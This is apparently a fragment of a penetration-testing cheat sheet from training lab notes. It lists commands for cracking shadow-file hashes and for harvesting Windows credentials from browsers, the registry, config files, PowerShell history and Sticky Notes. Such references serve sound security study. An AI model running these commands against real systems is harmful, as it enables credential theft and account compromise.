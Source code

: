 ````
$ unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
$ hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
````

## Credential Hunting

### Windows

**LaZagne**
````
> LaZagne.exe all
````
**BrowserCreds**
````
> .\SharpChrome.exe logins /unprotect
https://github.com/hakaioffsec/browservoyage
````
**SessionGopher**
````
> Import-Module .\SessionGopher.ps1
> Invoke-SessionGopher -Target <machine>
````
**Autologon**
````
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
````
**findstr & Powershell**
````
> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
> findstr /SI /M "password" *.xml *.ini *.txt
> findstr /si password *.xml *.ini *.txt *.config
> findstr /spin "password" *.*
> select-string -Path C:\Users\htb-student\Documents\*.txt -Pattern password (powershell)
> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore (powershell)
````
**Misc**
````
> gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
> gc (Get-PSReadLineOption).HistorySavePath
> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
````
**unattend.xml**

**StickyNotes**
````
Located at C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
Copy the plum.sqlite to our machine
Open with DB Browser for SQLite
---------------------------------------------------------------------------------------------------------------------
- Viewing Sticky Notes Data Using PowerShell -
> Set-ExecutionPolicy Bypass -Scope Process
> Import-Module .\PSSQLite.psd1
> $db = 'C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
````

